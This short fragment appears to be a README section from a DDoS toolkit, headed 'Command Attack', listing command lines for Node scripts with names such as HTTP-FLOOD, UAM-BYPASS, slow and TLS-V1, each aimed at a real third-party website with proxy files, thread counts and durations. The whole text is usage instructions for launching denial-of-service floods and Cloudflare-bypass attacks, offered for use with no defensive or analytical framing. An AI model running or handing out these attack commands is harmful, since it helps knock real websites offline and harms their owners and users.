 𝐂𝐨𝐦𝐦𝐚𝐧𝐝 𝐀𝐭𝐭𝐚𝐜𝐤 :


node FLOOD-JS.js https://sex.com proxy.txt 180 GET


node HTTP-BROWSER.js https://sex.com 1000 180


node cf.js https://sex.com 180


node HTTP-FLOOD.js https://sex.com 180


node HTTPGET.js https://sex.com 443 180


node hyper.js https://sex.com 180


node HTTP-RAW.js https://sex.com 180


node slow.js https://sex.com 180


node UAM-BYPASS.js https://sex.com 180 120



node TLS-V1.js https://sex.com 60 150
